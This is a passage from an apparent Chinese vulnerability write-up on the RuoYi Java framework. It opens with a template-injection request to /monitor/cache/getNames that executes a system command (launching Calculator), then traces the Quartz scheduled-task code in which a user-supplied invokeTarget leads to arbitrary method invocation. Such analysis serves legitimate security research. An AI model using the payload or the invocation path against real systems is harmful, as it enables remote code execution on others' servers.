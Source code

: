 ```
POST /monitor/cache/getNames HTTP/1.1

fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a Calculator')}__::.x
```

### 定时计划
这里先需要说一下前置知识。所谓的定时计划，就是每隔一段时间完成某种操作，比如每隔5分钟写一行代码。定时任务中有一种叫Cron任务，它除了每隔一段时间重复执行还可以在某个具体的时间点执行，例如在凌晨1点写一行代码。Quartz是很常用的定时任务组件，它最简单的使用逻辑是先创建一个调度器，再定义一个JobDetail对其进行调度。
```
JobDetail jobDetail=JobBuilder.newJob(HelloJob.class).xxx
scheduler.scheduleJob(jobDetail,trigger);
scheduler.start();
```
这个HelloJob.class中定义了任务要执行的内容。根据Quartz组件的要求，此类需要实现Job接口，并将要执行的内容写在execute方法中。当定时任务开始执行，就调用execute方法。
```java
public class HelloJob implements Job {
    @Override
    public void execute(JobExecutionContext jobExecutionContext) throws JobExecutionException {...}
}
```

官方声明新增/修改定时任务`SysJobController`存在反序列化漏洞利用点，可以通过发送rmi、http、ldap请求完成攻击。SysJobController位于ruoyi-quartz模块。从SysJobController中无法看出rmi这种攻击的逻辑。既然是定时计划造成的漏洞，就对`org.quartz.Job`接口的实现类进行了一番搜索，发现如下类
```java
public abstract class AbstractQuartzJob implements Job{
    @Override
    public void execute(JobExecutionContext context) throws JobExecutionException
    {
        SysJob sysJob = new SysJob();
        BeanUtils.copyBeanProp(sysJob, context.getMergedJobDataMap().get(ScheduleConstants.TASK_PROPERTIES));
        try
        {
            before(context, sysJob); // 执行前
            if (sysJob != null)
            {
                doExecute(context, sysJob); // 执行方法由子类重载
            }
            after(context, sysJob, null); // 执行后
        }...
    }
}
```
核心的`doExecute()`执行方法是由子类进行重载的，查找`AbstractQuartzJob`的子类有两个`QuartzDisallowConcurrentExecution`（禁止并发执行）和`QuartzJobExecution`（允许并发执行），但是它们对doExecute的重载都指向同一个方法`JobInvokeUtil.invokeMethod()`
```java
    public static void invokeMethod(SysJob sysJob) throws Exception
    {
        String invokeTarget = sysJob.getInvokeTarget(); // 调用目标字符串invokeTarget，参数可传入
        String beanName = getBeanName(invokeTarget); // 获取bean名称，截取第一个(前的字符串中，最后一个.之前的字符串
        String methodName = getMethodName(invokeTarget); // 获取方法名称，截取第一个(前的字符串中，最后一个.之后的字符串
        List<Object[]> methodParams = getMethodParams(invokeTarget); // 获取方法参数，截取()之间的字符串，并以,分隔成字符串。参数类型只支持String，Boolean，Long，Double，Integer

        if (!isValidClassName(beanName)) // 要求bean名称最少包含两个. （return StringUtils.countMatches(invokeTarget, ".") > 1;）
        {
            Object bean = SpringUtils.getBean(beanName); // 从Spring的Beans中根据bean名称获取bean
            invokeMethod(bean, methodName, methodParams); // 调用方法
        }
        else
        {
            Object bean = Class.forName(beanName).newInstance(); // Spring中没有就根据名称获取类
            invokeMethod(bean, methodName, methodParams); // 调用方法
        }
```